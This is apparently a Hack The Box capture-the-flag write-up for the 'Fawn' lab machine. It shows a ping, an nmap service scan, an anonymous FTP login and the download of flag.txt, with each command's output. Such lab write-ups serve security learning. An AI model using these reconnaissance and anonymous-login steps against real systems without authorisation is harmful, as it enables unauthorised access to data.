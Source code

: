 # [Fawn](https://app.hackthebox.com/starting-point)

## Target IP - 10.129.23.79

### Enumeration

Here we are checking if we are able to establish a connection with the target machine. In Conclusion we are able to establish a connection between our lab with the target.

**Command 1** - 

`ping 10.129.23.79`

**Output** -

```
PING 10.129.23.79 (10.129.23.79) 56(84) bytes of data.
64 bytes from 10.129.23.79: icmp_seq=1 ttl=62 time=2539 ms
64 bytes from 10.129.23.79: icmp_seq=2 ttl=62 time=1750 ms
64 bytes from 10.129.23.79: icmp_seq=3 ttl=62 time=710 ms
64 bytes from 10.129.23.79: icmp_seq=4 ttl=62 time=2188 ms
64 bytes from 10.129.23.79: icmp_seq=5 ttl=62 time=1395 ms
64 bytes from 10.129.23.79: icmp_seq=6 ttl=62 time=357 ms
^C
--- 10.129.23.79 ping statistics ---
7 packets transmitted, 6 received, 14.2857% packet loss, time 6224ms
rtt min/avg/max/mdev = 357.205/1489.906/2539.444/769.909 ms, pipe 3
```

Here we are scanning the target machine for the open ports or services. In conclusion we find out that there is service named as ftp which is open on 21/tcp port. We can try accessing the service.

**Command 2** -

`sudo nmap -sV 10.129.23.79 -p 1-100`

**Output** - 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-16 21:39 IST
Nmap scan report for 10.129.23.79
Host is up (0.64s latency).
Not shown: 99 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.76 seconds
```


### Foothold

Here we tried to access the target machine through the ftp and tried the username as `anonymous` which worked for any password and then we got the ftp shell of the target machine.

**Command 3** -

`ftp 10.129.23.79`

**Output** - 

```
Connected to 10.129.23.79.
220 (vsFTPd 3.0.3)
Name (10.129.23.79:goobar07): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Here we printed the list of contents of the directory we are in so that we can get a clue. In conclusion we found the flag.txt which contains the flag of the machine.

**Command 4** -

`ls`

**Output** - 

```
229 Entering Extended Passive Mode (|||23519|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

Here we downloaded the flag.txt to our lab which then can be accessed to view its content.

**Command 5** - 

`get flag.txt`

**Output** -

```
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||63256|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***********************************************************|    32      180.63 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.04 KiB/s)
```

### This machine has been pawned.
~goobar07
